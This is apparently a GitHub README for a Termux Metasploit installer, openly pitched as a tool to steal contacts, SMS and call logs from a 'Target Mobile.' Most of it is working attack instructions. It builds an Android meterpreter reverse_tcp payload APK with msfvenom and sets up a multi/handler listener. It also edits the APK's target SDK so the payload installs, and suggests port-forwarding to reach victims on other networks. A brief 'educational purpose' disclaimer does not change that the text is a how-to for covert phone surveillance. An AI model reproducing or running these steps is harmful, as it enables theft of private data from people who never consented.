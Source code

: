 # metasploit
This tool will help you to steal contacts, sms, call logs and other thing of Target Mobile.
<p align="center"><img src="https://spportcovid19patient.000webhostapp.com/metasploit-696x363.png"></p>

<p align="center">
<img src="https://img.shields.io/badge/Python-3-brightgreen.svg?style=plastic">
<img src="https://img.shields.io/badge/Docker-✔-blue.svg?style=plastic">
</p>

<p align="center">
  <a href="https://twitter.com/jeopardy4u"><b>Twitter</b></a>
  <span> - </span>
  <a href="https://instagram.com/loathfaith"><b>Instagram</b></a>
  <span> - </span>
  <a href="https://github.com/loathsomeguy"><b>Tej's Page</b></a>
</p>

## Installation

### Termux

```bashapt update && upgrade
termux-setup-storage
pkg update && pkg upgrade -y
apt-get install curl
apt-get install wget
apt-get install git
apt install ruby
apt install pg_ctl
git clone https://github.com/loathsomeguy/Termux-Metasploit
cd Termux-Metasploit
bash setup

and press y when ask to press
```
## After installation complete
run `msfconsole`
```bash
msfconsole
db_status
use exploit/multi/handler
set payload android/meterpreter/reverse_tcp
set lhost 192.168.29.29 (your local ip)
set lport 6767
exploit
```
## cmd to generate payload
```
msfvenom -p android/meterpreter/reverse_tcp LHOST=192.168.29.29 LPORT=6767 R > /sdcard/payload.apk
```

## What will be my LHOST & LPORT?
```
LHOST: your local ip of wifi/mobile network

LPORT: you can use any port
```
## Payload Not installing, There was a problem parsing the package?
```
1. Install apk editor pro in your mobile
2. Open Apk Editor Pro and "select an apk fiel and choose your payload"
3. Click "FULL EDIT (Resource Re-Build)"
4. Select Manifest in bottom right corner
5. Now Search for SDK and change target sdk version to 22
6. Now save and again save to rebuild the apk
7. Go to APK Editor Pro folder and install that File

```
## How it is useful?

* It is used to retrieve all the messages, contacts, call-logs from the Target Mobile on the same or different Network. However you need to learn how to do port-forwarding in order to do it on different network.
* Use help command to know all the commands

## Warning
***This tool is only for educational purpose. If you use this tool for other purposes except education we will not be responsible in such cases.***

